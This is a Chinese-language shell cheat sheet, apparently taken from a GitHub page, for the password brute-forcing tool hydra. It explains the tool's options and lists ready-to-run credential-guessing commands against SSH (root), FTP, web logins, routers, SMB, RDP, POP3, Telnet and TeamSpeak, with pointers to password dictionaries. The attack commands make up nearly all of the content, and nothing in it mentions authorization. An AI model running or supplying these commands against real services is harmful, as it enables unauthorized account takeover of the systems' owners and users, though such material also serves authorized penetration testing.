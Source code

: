 ~~~shell
# github的一些字典库：https://github.com/wwl012345/PasswordDic

# 多种服务的暴力破解 
hydra [参数] [IP] [服务或者协议，例如ssh]
# -l 参数指定用户名，即单个可能的用户名
# -L 参数指定用户的用户名字典，即一组可能的用户名
# -p 参数指定密码，即单个可能的密码
# -P 参数指定密码字典，即一组可能的密码
# -e 参数指定额外的选项，例如 -e nsr 中的 n：空密码试探，s：使用账户名相同的密码进行试探，r：用户名称逆向后的名称也参与破解
# -M 参数指定目标ip列表文件，进行批量破解
# -s 参数指定目标服务的端口，如果不指定是按照服务或者协议的默认端口进行破解
# -o 参数破解成功的用户名和密码输出到指定文件
# -f 参数找到第一对登录名或者密码的时候中止破解
# -t 参数设置运行破解程序的线程数，默认是16
# -w 参数设置最大超时时间，单位
# -vV 参数显示详细过程，小写v越多信息越详细
# -R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
# -x 自定义密码，例如-x 6:10:1a. 表示枚举的密码由数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。

# 常见服务和协议的破解方式
# 破解ssh
hydra -l root -P passwords.txt -e nsr -o root-passwd-ok.txt -vV 192.168.0.200 ssh -f

# 破解ftp
hydra -L 用户名字典 -P 密码字典 -t 6 -e ns IP地址 -v

# http get方式提交，破解web登录：
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e nsr IP地址 http-get /admin/
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e nsr -f IP地址 http-get /admin/index.php
 
# http post方式在url后面添加用户密码提交，破解web登录：
hydra -f -l 用户名 -P 密码字典 -V -s 端口号 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"

# https 破解web登录
hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https

# http-get 路由器破解
hydra -l admin -x 6:10:1a.~!@#$%^&()-= 192.168.1.1 http-get /
# -x 6:10:1a. 表示枚举的密码由 数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。

# http-proxy 破解
hydra -l admin -P 字典.txt http-proxy://IP地址

# smb 破解
hydra -l 用户名 -P 密码字典 IP地址 smb

# rdp破解，即windows远程登录破解
hydra -l administrator -P 密码字典.txt -V ip地址 rdp

# pop3破解，即邮箱破解
hydra -l 用户名 -P 密码字典.txt my.pop3.mail pop3

# telnet破解
hydra -l 用户字典.txt -P 密码字典.txt -s 23 -e ns -f -V ip地址 telnet 

# 语音通讯工具teamspeak破解
hydra -l 用户名字典 -P 密码字典.txt -s 端口号 -vV ip teamspeak


# 暴力破解能成功最重要的条件还是要有一个强大的密码字典！Kali默认自带的字典在 /usr/share/wordlists 目录下
# dirb 目录下
#   big.txt #大的字典
~~~